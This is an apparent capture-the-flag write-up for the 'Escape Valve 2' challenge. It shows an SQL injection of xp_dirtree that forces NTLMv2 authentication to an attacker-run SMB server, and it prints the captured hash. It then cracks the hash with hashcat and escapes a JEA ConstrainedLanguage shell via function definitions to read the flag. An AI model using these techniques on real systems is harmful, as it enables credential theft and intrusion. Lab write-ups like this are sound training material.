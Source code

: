 # Escape Valve 2

## Description

* Target IP: 3.142.209.118

## Solution

We didn't find a way to escalate privileges in the MSSQL database. We can perhaps try use `xp_dirtree` to force the system user to access remote share which then helps in stealing NTLMv2 hashes. 

> Note: This require public ec2 droplet. 

Let's install impacket tool to stand up a smbserver. 

```bash
pip3 install impacket
smbserver.py -smb2support test .
```

Now we can trigger share access using below payload.

```bash
python3 client.py "-1 exec xp_dirtree '\\<dropletip>\test'"
info: "Failed to find case details"
```

On the listener we get this. 

```bash
root@ip-172-31-21-120:~# smbserver.py -smb2support test .
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (18.118.104.60,51594)
[*] AUTHENTICATE_MESSAGE (HEIST\julia,HEIST)
[*] User HEIST\julia authenticated successfully
[*] julia::HEIST:aaaaaaaaaaaaaaaa:035473c1a5595addc4427f023c0c0e2c:010100000000000000e68c772061d8010b89447592523d29000000000100100075004c004b004600530072006c004e000300100075004c004b004600530072006c004e00020010004d005000680068006c00690055007200040010004d005000680068006c006900550072000700080000e68c772061d801060004000200000008003000300000000000000000000000003000002e9b9ec7f9f5c1e5a42880c1eec77946c010574e10f9a7e93e4ba89d47e606830a001000000000000000000000000000000000000900220063006900660073002f0033002e003100330035002e003200340038002e00360039000000000000000000
```

Save the hash to file. We can try to crack the hash using different rules. 

```bash
hashcat -m 5600 hash -r /usr/share/hashcat/rules/d3ad0ne.rule /usr/share/wordlists/rockyou.txt 
hashcat (v6.1.1) starting...
...
JULIA::HEIST:aaaaaaaaaaaaaaaa:035473c1a5595addc4427f023c0c0e2c:010100000000000000e68c772061d8010b89447592523d29000000000100100075004c004b004600530072006c004e000300100075004c004b004600530072006c004e00020010004d005000680068006c00690055007200040010004d005000680068006c006900550072000700080000e68c772061d801060004000200000008003000300000000000000000000000003000002e9b9ec7f9f5c1e5a42880c1eec77946c010574e10f9a7e93e4ba89d47e606830a001000000000000000000000000000000000000900220063006900660073002f0033002e003100330035002e003200340038002e00360039000000000000000000:kittycat5%
...
```

This gets cracked almost instant and the password is `kittycat5%`. We can try to login to WinRM service.

```bash
gem install evil-winrm
evil-winrm -i 18.118.104.60 -u julia -p 'kittycat5%'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMWSManFault happened, message is [WSMAN ERROR CODE: 5]: <f:WSManFault Code='5' Machine='18.118.104.60' xmlns:f='http://schemas.microsoft.com/wbem/wsman/1/wsmanfault'><f:Message>Access is denied. </f:Message></f:WSManFault>

Error: Exiting with code 1
```

User is not authorized to access WinRM. Let's confirm if this is same with Windows PSSession as well.
> Note: We've to update our trustedhosts list so that our winrm client starts interacting with the remote service.
```powershell
Enable-PSRemoting -Force
Set-Item wsman:localhost\client\trustedhosts -Value *
```
```powershell
PS C:\> enter-pssession -Credential julia -ComputerName 18.118.104.60
enter-pssession : Connecting to remote server 18.118.104.60 failed with the following error message : Access is
denied. For more information, see the about_Remote_Troubleshooting Help topic.
At line:1 char:1
+ enter-pssession -Credential $cred -ComputerName 18.118.104.60
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidArgument: (18.118.104.60:String) [Enter-PSSession], PSRemotingTransportException
    + FullyQualifiedErrorId : CreateRemoteRunspaceFailed
```

Same. It could be that the user remote access is restricted with Just Enough Administration (JEA). Let's retry this with `-ConfigurationName` as `juliaJEA`. 

```powershell
PS C:\Users\a852623> Enter-PSSession -ComputerName 18.118.104.60 -Credential julia  -ConfigurationName juliaJEA
[18.118.104.60]: PS>ls
The term 'ls' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the
spelling of the name, or if a path was included, verify that the path is correct and try again.
    + CategoryInfo          : ObjectNotFound: (ls:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException

[18.118.104.60]: PS>whoami
The term 'whoami.exe' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the
spelling of the name, or if a path was included, verify that the path is correct and try again.
    + CategoryInfo          : ObjectNotFound: (whoami.exe:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

We land in a restricted shell. Let's enumerate the environment info.

```powershell
[18.118.104.60]: P> $env:username
julia
[18.118.104.60]: PS>$ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```

We're in a ConstrainedLanguage mode. As per [docs](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/) most of the features are blocked in this language mode. One known bypass is to downgrade the powershell version which drops to FullLanguage mode.

```powershell
[18.118.104.60]: PS>powershell -version 2
The term 'powershell.exe' is not recognized as the name of a cmdlet, function, script file, or operable program. Check
the spelling of the name, or if a path was included, verify that the path is correct and try again.
    + CategoryInfo          : ObjectNotFound: (powershell.exe:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

One other technique could be to see if user can define functions and then call them. 

```powershell
[18.118.104.60]: P> function test { whoami }
[18.118.104.60]: PS>test
heist\julia
```

This works. We find a flag on julia desktop.

```powershell
[18.118.104.60]: PS>function test { ls c:\users\julia\Desktop };test


    Directory: C:\users\julia\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/21/2016   3:36 PM            527 EC2 Feedback.website
-a----        6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website
-a----        4/30/2022   1:32 PM             33 flag.txt
```

Flag can be viewed similar way.

```powershell
[18.118.104.60]: PS>function test { cat c:\users\julia\Desktop\flag.txt };test
ACTCTF{n0t_en0ugh_4dm1n1str4t10n}
```

